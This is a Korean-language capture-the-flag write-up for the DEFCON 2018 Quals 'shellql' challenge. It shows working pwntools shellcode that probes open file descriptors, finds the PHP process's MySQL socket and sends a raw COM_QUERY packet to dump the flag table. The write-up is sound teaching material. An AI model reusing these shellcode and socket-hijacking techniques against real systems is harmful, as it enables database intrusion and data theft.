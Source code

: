 ```yaml
---
layout: post
title: shellql
category: Pwnable
source: "DEFCON CTF 2018 Quals."
rpath: /resource/shellql
tag: [mysql, shellcode, cgi, COM_QUERY]
---
```


**Category**: Pwnable

**Source**: DEFCON CTF 2018 Quals.

**Points**: 118

**Author**: Jisoon Park(js00n.park)

**Description:** 

> Do you even SQL? The flag is in the table `flag`
> 
> http://ssat-ps.iptime.org:5103
> 
> [download]({{site.github.master}}{{page.rpath}}/shellme.so)

## Write-up

(*. 문제 환경을 재구성하여 풀이하였습니다.)

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

문제 사이트에 접속하면 shell을 입력하라고 한다. 뭘 입력해야 할지 모르겠는데, **debug me** 메뉴가 있으니 들어가보자.

```php
$link = mysqli_connect('localhost', 'shellql', 'shellql', 'shellql');

if (isset($_POST['shell']))
{
   if (strlen($_POST['shell']) <= 1000)
   {
      echo $_POST['shell'];
      shellme($_POST['shell']);
   }
   exit();
}
```

php-cgi [소스 코드]({{site.github.master}}{{page.rpath}}/index.php)가 보인다. 우선 shellql database에 연결을 만들고, 내가 보낸 shell을 shellme() 함수를 통해 호출하는 간단한 코드이다.

cgi니까 shelle() 함수는 첨부된 shellme.so 파일에 정의되어 있을 것 같다. IDA로 shellme.so를 열어보자.

```c
Php::Value *__fastcall shellme(Php::Value *this, __int64 *a2)
{
  __int64 v2; // rsi
  void *src; // [rsp+0h] [rbp-48h]
  __int64 v5; // [rsp+10h] [rbp-38h]
  unsigned __int64 v6; // [rsp+28h] [rbp-20h]

  v2 = *a2;
  v6 = __readfsqword(0x28u);
  ZNK3Php5Value11stringValueB5cxx11Ev(&src, v2);
  j_shell_this(src);
  Php::Value::Value(this, 1);
  if ( src != &v5 )
    operator delete(src);
  return this;
}

__int64 __fastcall j_shell_this(void *src)
{
  return shell_this(src);
}

__int64 __fastcall shell_this(void *src)
{
  size_t v1; // rbx
  void *v2; // rbp

  v1 = (signed int)strlen((const char *)src);
  v2 = mmap(0LL, v1, 7, 34, -1, 0LL);
  memcpy(v2, src, v1);
  alarm(0x1Eu);
  prctl(22, 1LL);
  return ((__int64 (*)(void))v2)();
}
```

shellme() 함수는 php에서 넘어온 파라미터를 이용하여 argument로 전달된 shell string을 복구하고 j_shell_this() 함수로 넘기는데, j_shell_this() 함수는 그냥 shell_this() 함수를 호출하는 함수이다.

shell_this() 함수는 mmap으로 메모리 구역을 설정한 후 전달받은 데이터를 복사해넣고 해당 메모리를 호출하여 실행한다.

참고로, mmap()은 아래와 같은 모양을 하고 있다.

```
void * mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
```

메모리의 적당한 영역에 v1(src 길이)만큼의 메모리를 할당하고, RWX 권한을 부여하는데 flags는 MAP_ANONYMOUS \| MAP_PRIVATE로 설정하여 다른 프로세스와 공유되지 않도록 하였다. (MAP_ANONYMOUS라서 fd는 -1, offset은 0이다.)

prctl() 함수는 SECCOMP를 걸어주는 함수인데, prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)이 걸려있다. 이 모드에서는 read()/write()/exit()/sigret() syscall만 사용할 수 있다고 한다.

SECCOMP 제약만 만족하는 shellcode를 써주면 그대로 실행해주는 함수를 친절하게 제공해주니 shellcode를 잘 쓰면 될 것 같은데, native program에서 mysql을 어떻게 사용할 수 있는지가 문제에서 묻는 내용인 것 같다.

처음에 php-cgi 코드를 봤을 때는 sqli_connect() 함수를 호출하는 라인이 mysql 계정과 database를 알려주기 위해서 작성된거라고 생각해서 c의 mysql connector를 shellcode로 작성하려고 했는데, 보면 볼수록 답이 보이질 않았다.

mysql은 tcp 3306 포트를 통해 서비스 되니, 소켓 통신이 가능할지 살펴보자. php-cgi에서 연결을 만들었으니 소켓이 열려있을 수도 있을 것 같다. linux에서는 파일이건 소켓이건 모두 file로 간주되니, 소켓이 열려있다면 [file descriptor](https://en.wikipedia.org/wiki/File_descriptor)를 사용할 수 있을것이다.

```
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket.
```

알다시피, file descriptor 0, 1, 2번은 예약 되어 있고 보통 순서대로 열리니 3번 부터 write를 시도해보자.

```python
[...]

context(arch='amd64', os='linux')

#URL = 'http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php'
URL = 'http://ssat-ps.iptime.org:5103/cgi-bin/index.php'

print "fd write test(3~9)"
fd = []
for i in range(3, 10):
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += "add eax, 48\n"
	payload += "mov [rsp], rax\n"
	payload += shellcraft.write(1, 'rsp', 1)

	data = {'shell': asm(payload)}

	res = requests.post(URL, data = data)
	if res.text == str(len(msg)):
		print "%d is alive!"%i
		fd.append(i)
```

위 코드는 3번부터 9번 fd까지에 특정 메세지를 write한 후 return value(rax)를 이용해서 write가 성공하는지 확인한다.

처음에는 코드를 제대로 구성한 것 같은데도 http 500 response가 오면서 출력 결과를 확인할 수 없었는데, 찾아보니 cgi 프로그램에서는 가장 먼저 [MIME-type 헤더 출력](https://httpd.apache.org/docs/trunk/ko/howto/cgi.html#writing)이 있어야 한다고 해서 추가해 주었더니 정상적으로 출력을 확인할 수 있었다. (Content-type 없이 그냥 \n 하나만 넣어도 정상동작한다. 그냥 빈 줄 다음에 컨텐츠가 나오는지 확인하는 것 같다.)

![img]({{page.rpath|prepend:site.baseurl}}/writable_ports.png)

코드 실행결과 3번과 4번 fd가 열려 있는 것을 확인할 수 있다.

3번 또는 4번 포트가 mysql 포트라면, query에 대한 response 수신을 위해 read도 가능해야 할 것이다.

위와 동일한 방법으로 write 후에 read도 가능한지 확인해보자.

```python
print "\nfd read test for writable ports"
for i in fd:
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += shellcraft.read(i, 'rsp', 10)
	payload += shellcraft.write(1, 'rsp', 'rax')
	
	data = {'shell': asm(payload)}

	res = requests.post(URL, data=data)
	if len(res.text) > 0:
		print "%d is available."%i
		mysql_port = i
```

![img]({{page.rpath|prepend:site.baseurl}}/readable_ports.png)

3번과 4번 포트 중에 4번 포트만 read가 가능했다. mysql은 4번 포트를 사용할 가능성이 매우 높아 보인다.

이제 4번 포트를 이용해서 mysql query를 날려보자.

[mysql documentation](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_connection_lifecycle.html)에 따르면 mysql protocol은 connection phase - command phase - replication phase가 있다고 한다.

connection phase는 처음 database에 접속하는 과정이며, 이 문제에서는 php-cgi에서 mysqli_connect() 함수가 실행될때 완료된다.

command phase에서는 database에 query를 날리는 과정이다. query를 날릴 때는 [COM_QUERY](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_com_query.html)를 이용한다고 한다. COM_QUERY는 [length | 0x03 | Query] 형식으로 구성되는데 length는 4 byte little endian이란다. (나중에 writeup들을 봤더니 mysql query를 wireshark로 잡아서 COM_QUERY 구조를 알아낸 팀도 있었다.)

```python
print "\nget query result"
msg = "\x03" + "select * from flag"								#COM-QUERY format
msg = p32(len(msg)) + msg
payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
payload += shellcraft.write(mysql_port, msg, len(msg))
payload += shellcraft.read(mysql_port, 'rsp', 200)
payload += shellcraft.write(1, 'rsp', 'rax')

data = {'shell': asm(payload)}

res = requests.post(URL, data=data)
pattern = re.compile(r'OOO{.+}')
print re.search(pattern, res.text).group()
```

shellcraft에서 echo나 write를 할때 rsp를 string buffer로 활용하길래 response도 rsp에 저장하였다. (처음에는 100 바이트만 읽었는데, flag가 짤려서 나왔다.) res.text 전체를 print하면 여러 지저분한 값들이 많이 나오는데, 아마 COM_QUERY에 대한 응답 형식일 것 같으나 별 관심은 없어서 flag만 잘라내었다.

여기까지의 [코드]({{site.github.master}}{{page.rpath}}/ex.py)를 모두 실행하면 flag를 얻을 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **OOO{shellcode and webshell is old news, get with the times my friend!}**
